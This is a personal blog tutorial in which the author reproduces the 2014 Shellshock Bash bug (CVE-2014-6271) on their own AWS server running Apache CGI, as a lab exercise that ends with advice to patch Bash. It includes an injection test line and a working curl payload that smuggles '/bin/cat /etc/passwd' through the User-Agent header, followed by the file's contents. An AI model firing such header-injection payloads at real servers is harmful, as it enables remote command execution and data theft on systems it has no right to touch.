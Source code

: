 ```yaml
---
layout: post
title: Shellshock DIY
category: posts
image: shellshock/header.png
---
```


When [news of Shellshock first broke](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271), the main vector of attack was any application running on an Apache server via CGI. I don't run any Apache servers anymore, and if I did I probably wouldn't be running them with CGI (just not my preference). However, I wanted to try this bug out and I didn't want to do so in a malicious manner; I simply wanted to see what it did.

Without further ado, let's hack ourselves!

First we'll go create an EC2 instance on AWS. My preference is to use Ubuntu because I know it best and I'm able to find solutions to issues I encounter very quickly.

After our instance is up and running we'll SSH into it and check if the default version of Bash is vulnerable.

{% highlight bash %}
$ ssh -l ubuntu [Your IP address] -i ~/.ssh/shellshock.pem
$ env X="() { :;} ; echo busted" /bin/bash -c "echo completed"
busted
completed
{% endhighlight %}

Oh heck yeah, it totally is.

(**Note:** I'm using an old AWS image I made a few months ago. I believe Amazon patched bash on all their default images. If Bash is already patched on your machine, my next suggestion is to find a Vagrant image that isn't patched yet. If you can't, leave a comment below. I can post a tutorial on how to compile an old, vulnerable version of Bash and replace the patched one on your box; for science!) 

Ok next step: Installing Apache and configuring it to use CGI.

{% highlight bash %}
sudo apt-get install apache2
sudo a2enmod cgi
{% endhighlight %}

That was easy. We need to tell Apache when to use CGI. We'll do that by adding the following somewhere in the config of a site in our enabled virtual hosts folder (`/etc/apache2/sites-enabled`; in our case the exact file is `/etc/apache2/sites-enabled/000-default.conf`):

{% highlight conf %}
ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
<Directory "/usr/lib/cgi-bin">
  AllowOverride None
  Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
  Order allow,deny
  Allow from all
</Directory>
{% endhighlight %}

The complete Apache configuration file for the virtual host we'll be using looks like this:

{% highlight conf %}
<VirtualHost *:80>
  ServerAdmin webmaster@localhost
  DocumentRoot /var/www/html

  ScriptAlias /cgi-bin/ /usr/lib/cgi-bin/
  <Directory "/usr/lib/cgi-bin">
    AllowOverride None
    Options +ExecCGI -MultiViews +SymLinksIfOwnerMatch
    Order allow,deny
    Allow from all
  </Directory>

  ErrorLog ${APACHE_LOG_DIR}/error.log
  CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
{% endhighlight %}

Add a file called `poc.cgi` to `/usr/lib/cgi-bin` with the following contents:

{% highlight bash %}
#!/bin/bash

echo "Content-type: text/html"
echo ""

echo '<html>'
echo '<head>'
echo '<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">'
echo '<title>PoC</title>'
echo '</head>'
echo '<body>'
echo '<pre>'
/usr/bin/env
echo '</pre>'
echo '</body>'
echo '</html>'

exit 0
{% endhighlight %}

**Note:** The contents of this file can be anything, as can the filename. In our case the file just needs to exist. I chose to copy the Bash script above from [https://www.invisiblethreat.ca/2014/09/cve-2014-6271/](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/) because it's an easy way to check that apache is configured correctly.

**Additional Note:** You may need to change the permissions of this file and directory. If you get a 403 error, try `sudo chmod 755 -R /usr/lib/cgi-bin`.

Now let's restart Apache.

{% highlight bash %}
sudo services apache2 restart
{% endhighlight %}

If everything went according to plan, we should be able to run this script via CGI and have the result returned to us. Let's see if that works:

{% highlight bash %}
~
❯ curl http://[Your IP Address]/cgi-bin/poc.cgi
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>PoC</title>
</head>
<body>
<pre>
SERVER_SIGNATURE=<address>Apache/2.4.7 (Ubuntu) Server at [Your IP Address] Port 80</address>

HTTP_USER_AGENT=curl/7.30.0
SERVER_PORT=80
HTTP_HOST=[Your IP Address]
DOCUMENT_ROOT=/var/www/html
SCRIPT_FILENAME=/usr/lib/cgi-bin/poc.cgi
REQUEST_URI=/cgi-bin/poc.cgi
SCRIPT_NAME=/cgi-bin/poc.cgi
REMOTE_PORT=34236
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CONTEXT_PREFIX=/cgi-bin/
PWD=/usr/lib/cgi-bin
SERVER_ADMIN=webmaster@localhost
REQUEST_SCHEME=http
HTTP_ACCEPT=*/*
REMOTE_ADDR=[Remote IP Address]
SHLVL=1
SERVER_NAME=
SERVER_SOFTWARE=Apache/2.4.7 (Ubuntu)
QUERY_STRING=
SERVER_ADDR=10.0.0.153
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
_=/usr/bin/env
</pre>
</body>
</html>
{% endhighlight %}

Awesome! Now that everything is set up, let's exploit ourselves.

{% highlight bash %}
~
❯ curl -A "() { foo;};echo;/bin/cat /etc/passwd" http://[Your Server IP]/cgi-bin/poc.cgi
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/zsh

{% endhighlight %}

Great success! We were successfully able to run an arbitrary code execution exploit on a remote machine (that we own).

Now go patch Bash!

Resources and helpful links:

- [How to Protect your Server Against the Shellshock Bash Vulnerability](https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability)
- [Everything you need to know about the Shellshock Bash bug](http://www.troyhunt.com/2014/09/everything-you-need-to-know-about.html)
- [CVE-2014-6271: BASH LETS YOU DO BAD THINGS. (SHELLSHOCK)](https://www.invisiblethreat.ca/2014/09/cve-2014-6271/)
- [How do I secure Apache against the Bash Shellshock vulnerability?](http://security.stackexchange.com/questions/68146/how-do-i-secure-apache-against-the-bash-shellshock-vulnerability)
- [Shellshock DHCP RCE Proof of Concept](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)
- [Bash – ShellShocker – Attacks Increase in the Wild – Day 1](http://blog.sucuri.net/2014/09/bash-shellshocker-attacks-increase-in-the-wild-day-1.html)
